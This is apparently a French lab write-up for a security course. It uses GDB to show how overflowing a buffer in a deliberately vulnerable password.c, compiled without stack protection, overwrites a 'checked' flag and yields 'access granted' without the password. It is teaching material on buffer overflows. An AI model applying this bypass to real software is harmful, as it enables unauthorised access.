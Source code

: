# Exercice 3

### Consignes
- Téléchargez le fichier password.c depuis moodle
- Compilez-le avec la commande :
```bash
gcc -g -fno-stack-protector -o password password.c
```
- Essayez différentes tailles d’input afin d’obtenir l’output "access granted" sans introduire le bon mot de passe
- Utilisez GDB pour comprendre ce comportement

### Marche à suivre

- Compiler le fichier "password.c"
```bash
gcc -g -fno-stack-protector -o password password.c
```
- Ouvrir le fichier "password" avec GDB
```bash
gdb password
```
- Lancer le programme
```bash
run test
```
- Breakpoint check_password
```bash
break check_password
```
```bash
Breakpoint 1 at 0x555555555165: file password.c, line 5.
```
- Lancer le programme
```bash
run test
```
```bash	
Breakpoint 1, check_password (password=0x7fffffffe250 "test") at password.c:5
5           int checked = 0;
```
- Afficher les variables locales
```bash
info locals
```
```bash	
checked = 0
password_buffer = "cice 3/password"
```
- Afficher la valeur de &checked
```bash
print &checked
```
```bash
$1 = 0
```
- Afficher la valeur de &password_buffer
```bash
print password_buffer
```
```bash
$2 = "cice 3/password"
```
- Afficher la mémoire à l'adresse de &password_buffer
```bash
x/8xw password_buffer
```
```bash
0x7fffffffdd40: 0x65636963      0x702f3320      0x77737361      0x0064726f
0x7fffffffdd50: 0x00000000      0x00000000      0x00000000      0x00000000
```
- Lancer le programme avec un input de 29 caractères
```bash
run $(python -c 'print "A"*29')
```
- Afficher la mémoire à l'adresse de &password_buffer
```bash
x/8xw password_buffer
```
```bash
0x7fffffffdd30: 0x452f3120      0x63726578      0x20656369      0x61702f33
0x7fffffffdd40: 0x00000000      0x00000000      0x00000000      0x00000000
```
- Next
```bash
next
```
- Next
```bash
next
```
- Afficher la mémoire à l'adresse de &password_buffer
```bash
x/8xw password_buffer
```
```bash
0x7fffffffdd30: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffdd40: 0x41414141      0x41414141      0x41414141      0x00000041
```
- Afficher la valeur de checked
```bash
print checked
```
```bash	
$3 = 65
```
- Continuer l'execution
```bash
continue
```

### Résultat
```bash
access granted
```